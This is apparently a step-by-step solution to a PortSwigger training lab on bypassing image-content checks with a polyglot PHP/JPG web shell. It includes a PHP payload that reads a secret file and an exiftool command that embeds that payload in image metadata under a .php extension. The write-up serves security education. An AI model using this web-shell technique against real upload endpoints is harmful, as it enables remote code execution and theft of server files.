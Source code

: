 # [Lab: Remote code execution via polyglot web shell upload](https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-polyglot-web-shell-upload)

## Lab

This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

## Solution

True combo:

1. On your system, create a file called  `exploit.php`  containing a script for fetching the contents of Carlos's secret. For example:

    `<?php echo file_get_contents('/home/carlos/secret'); ?>`
2. Log in and attempt to upload the script as your avatar. Observe that the server successfully blocks you from uploading files that aren't images, even if you try using some of the techniques you've learned in previous labs.
3. Create a polyglot PHP/JPG file that is fundamentally a normal image, but contains your PHP payload in its metadata. A simple way of doing this is to download and run ExifTool from the command line as follows:

    `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php`

    This adds your PHP payload to the image's  `Comment`  field, then saves the image with a  `.php`  extension.

4. In the browser, upload the polyglot image as your avatar, then go back to your account page.
5. In Burp's proxy history, find the  `GET /files/avatars/polyglot.php`  request. Use the message editor's search feature to find the  `START`  string somewhere within the binary image data in the response. Between this and the  `END`  string, you should see Carlos's secret, for example:

    `START 2B2tlPyJQfJDynyKME5D02Cw0ouydMpZ END`
6. Submit the secret to solve the lab.
